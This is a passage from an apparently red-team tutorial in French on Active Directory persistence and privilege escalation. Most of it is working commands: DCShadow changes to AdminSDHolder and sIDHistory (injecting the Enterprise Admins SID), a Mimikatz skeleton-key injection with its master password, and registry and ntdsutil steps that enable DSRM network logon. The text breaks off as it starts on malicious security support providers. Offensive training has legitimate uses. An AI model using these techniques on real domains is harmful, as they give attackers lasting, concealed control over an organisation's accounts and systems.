 ### Applications Tactiques Avancées

**Persistance via AdminSDHolder :**

DCShadow peut modifier l'objet AdminSDHolder pour maintenir des privilèges permanents :

```powershell
# Modification des ACL AdminSDHolder
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=corp,DC=local /attribute:nTSecurityDescriptor /value:[ACL_MODIFIEE]
```

**Escalade de privilèges cross-domain :**

Exploitation de sIDHistory pour l'accès à travers les domaines de la forest :

```powershell
# Injection de SID Enterprise Admin depuis domaine enfant
lsadump::dcshadow /object:CN=user,CN=Users,DC=child,DC=corp,DC=local /attribute:sIDHistory /value:S-1-5-21-root-519
```

## Techniques de Persistance Avancées

### Persistance par Manipulation des Identités

**Skeleton Key Attack :**

L'injection de clés squelettes dans la mémoire LSASS du contrôleur de domaine permet l'authentification avec un mot de passe maître :

```powershell
# Injection de skeleton key avec Mimikatz
misc::skeleton

# Authentification avec le mot de passe maître
# Mot de passe : "mimikatz"
```

Cette technique maintient l'accès même lors de changements de mots de passe utilisateur, mais nécessite une réinjection après chaque redémarrage du DC.

**Directory Services Restore Mode (DSRM) :**

Exploitation du compte administrateur local DSRM pour maintenir l'accès :

```powershell
# Activation de l'authentification réseau DSRM
reg add HKLM\System\CurrentControlSet\Control\Lsa /v DsrmAdminLogonBehavior /t REG_DWORD /d 2

# Synchronisation du mot de passe DSRM avec un compte du domaine
ntdsutil "set dsrm password" "sync from domain account administrator" quit quit
```

### Custom Security Support Providers (SSP)

L'installation de SSP malveillants intercepte et enregistre les authentifications en temps réel :
